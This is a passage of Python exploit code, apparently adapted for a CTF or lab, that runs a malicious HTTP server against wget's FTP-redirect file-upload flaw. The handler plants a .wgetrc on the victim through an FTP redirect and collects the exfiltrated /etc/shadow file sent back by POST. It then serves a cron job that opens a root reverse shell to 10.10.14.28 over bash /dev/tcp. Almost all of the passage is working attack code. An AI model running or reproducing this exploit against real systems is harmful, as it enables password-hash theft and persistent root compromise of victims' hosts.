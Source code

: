 ```python
          self.wfile.write("Nothing to see here...")
          return

       print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
       self.send_response(301)
       new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
       print "Sending redirect to %s \n"%(new_path)
       self.send_header('Location', new_path)
       self.end_headers()

   def do_POST(self):
       # In here we will receive extracted file and install a PoC cronjob

       print "We have a volunteer requesting " + self.path + " by POST :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
	  print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       content_len = int(self.headers.getheader('content-length', 0))
       post_body = self.rfile.read(content_len)
       print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)

       print "Sending back a cronjob script as a thank-you for the file..." 
       print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
       self.send_response(200)
       self.send_header('Content-type', 'text/plain')
       self.end_headers()
       self.wfile.write(ROOT_CRON)

       print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"

       return

HTTP_LISTEN_IP = '靶机nc 80端口的HOST IP'   # Host: 10.0.3.1
HTTP_LISTEN_PORT = 80
FTP_HOST = 'Targrt IP'
FTP_PORT = 21

ROOT_CRON = "* * * * * root bash -c 'bash -i >& /dev/tcp/10.10.14.28/443 0>&1' \n"

handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print "Ready? Is your FTP server running?"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
   print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
   print "FTP is down :( Exiting."
   exit(1)

print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

handler.serve_forever()
```

